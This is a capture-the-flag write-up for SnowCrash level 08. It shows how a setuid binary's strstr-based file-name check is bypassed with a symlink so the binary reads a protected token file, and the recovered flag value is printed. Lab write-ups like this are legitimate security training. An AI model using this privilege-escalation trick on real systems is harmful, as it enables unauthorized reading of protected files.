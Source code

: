 Level 08
========

*	We spawn with two files at root
	```console
	level08@SnowCrash:~$ ls -l 
	total 16
	-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
	-rw-------  1 flag08 flag08    26 Mar  5  2016 token
	```
*	We can't read token (I am guessing this is your password/flag)
*	But we can execute `level08`
	```console
	level08@SnowCrash:~$ ./level08 
	./level08 [file to read]
	```
*	We are obviously trying this one even thought I doubt it
	```console
	level08@SnowCrash:~$ ./level08 token
	You may not access 'token'
	```
*	From now on, nothing change, we still can't read token, so I decided to do like in the level03 and try to get a good look at the code
	```console
	root@DESKTOP-69N2SL4:~# scp -P 4242 level08@192.168.29.3:/home/user/level08/level08 .
	root@DESKTOP-69N2SL4:~# objdump -M Intel -d level08 > dump.s
	root@DESKTOP-69N2SL4:~# sh cutlines.sh
	```
*	After reading the code I could notice that it was searching for a namefile with strstr containing the word `token` in it
*	At the end, all we had to do is this (I added a mistake exemple to prove the strstr theory)
	```console
	level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/tokentest
	level08@SnowCrash:~$ ./level08 /tmp/tokentest
	You may not access '/tmp/tokentest'
	level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/link
	level08@SnowCrash:~$ ./level08 /tmp/link
	quif5eloekouj29ke0vouxean
	```